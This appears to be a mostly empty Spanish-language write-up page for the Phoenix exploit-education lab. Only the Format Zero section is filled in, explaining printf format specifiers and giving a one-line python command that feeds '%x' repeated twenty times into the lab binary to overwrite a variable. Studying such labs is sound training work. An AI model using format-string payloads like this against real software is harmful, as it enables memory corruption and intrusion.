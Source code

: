 ```yaml
---
layout: default
title: "Phoenix-Exploit Education"
permalink: /Phoenix-EE/
---
```


# Phoenix-Exploit Education

## Stack Zero
## Stack One
## Stack Two
## Stack Three
## Stack Four
## Stack Five
## Stack Six

## Format Zero

Como hablamos de formatos, nos referimos a los que tienen **%** como por ejemplo **%s**, **%i**, **%p**, **%x** o **%d** entre otros. En este caso usaremos **%x**, unas cuantas veces para formar el  error del bug.

Ahora haremos lo siguiente:

```bash
$ python -c "print '%x'*20" | ./format-zero

Welcome to phoenix/format-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

## Format One
## Format Two
## Format Three
## Format Four
## Heap Zero
## Heap One
## Heap Two
## Heap Three
## Net Zero
## Net One
## Net Two
## Final Zero
## Final One
## Final Two


